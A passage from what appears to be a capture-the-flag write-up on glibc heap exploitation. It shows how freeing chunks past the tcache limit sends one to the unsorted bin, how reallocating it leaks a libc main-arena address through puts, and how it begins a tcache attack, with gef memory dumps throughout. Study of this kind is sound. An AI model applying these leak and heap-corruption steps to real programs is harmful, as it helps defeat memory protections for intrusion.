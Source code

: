 ```
/* This is another arbitrary limit, which tunables can change.  Each
   tcache bin will hold at most this number of chunks.  */
# define TCACHE_FILL_COUNT 7
```

From reversing the binary, we know that we can have `10` blocks allocated at a time. What we will do is allocate `10` blocks, then free `7`. This will free up the tcache. While the tcache is freed, chunks we free will end up in the unsorted bin due to their size. When we take a look at the first chunk to enter into the unsorted bin (after we get at least one more chunk inserted into the unsorted bin), we see something very interesting:

```
gef➤  x/4g 0x56041198c950
0x56041198c950: 0x0 0x206b1
0x56041198c960: 0x7f8d327faca0  0x7f8d327faca0
gef➤  x/g 0x7f8d327faca0
0x7f8d327faca0: 0x56041198c950
```  

We can see in the data section, there are two pointers to the libc (specifically to somewhere in the main arena). What we can do is allocate this chunk again with malloc, and only write `8` bytes worth of data to it. Then we will just show this chunk, and since `puts` stops when it reaches a null byte, it will leak the libc address. We will go into more depth of the unsorted bin later. However before we allocate that chunk, we will have to allocate off all of the tcache chunks (which get allocated in the reverse order they were put in, so FILO). So we just have to allocate 7 chunks to free up the tcache, then the next chunk we allocate will give us our infoleak. Here is what the chunk looks like when we prep it for the infoleak:

```
gef➤  x/4g 0x564aa26bb950
0x564aa26bb950: 0x0 0x101
0x564aa26bb960: 0x3832373533393531  0x7f479de2fca0
gef➤  x/g 0x7f479de2fca0
0x7f479de2fca0: 0x564aa26bba50
```

### tcache attack

So before we get into attacking the tcache, let's take a look at what the tcache is exactly. Here we take a look at seven freed chunks in the tcache:

```
gef➤  x/4g 0x55bf78b7d250
0x55bf78b7d250: 0x0 0x101
0x55bf78b7d260: 0x0 0x55bf78b7d010
gef➤  x/4g 0x55bf78b7d350
0x55bf78b7d350: 0x0 0x101
0x55bf78b7d360: 0x55bf78b7d260  0x55bf78b7d010
gef➤  x/4g 0x55bf78b7d450
0x55bf78b7d450: 0x0 0x101
0x55bf78b7d460: 0x55bf78b7d360  0x55bf78b7d010
gef➤  x/4g 0x55bf78b7d550
0x55bf78b7d550: 0x0 0x101
0x55bf78b7d560: 0x55bf78b7d460  0x55bf78b7d010
gef➤  x/4g 0x55bf78b7d650
0x55bf78b7d650: 0x0 0x101
0x55bf78b7d660: 0x55bf78b7d560  0x55bf78b7d010
gef➤  x/4g 0x55bf78b7d750
0x55bf78b7d750: 0x0 0x101
0x55bf78b7d760: 0x55bf78b7d660  0x55bf78b7d010
gef➤  x/4g 0x55bf78b7d850
0x55bf78b7d850: 0x0 0x101
0x55bf78b7d860: 0x55bf78b7d760  0x55bf78b7d010
```
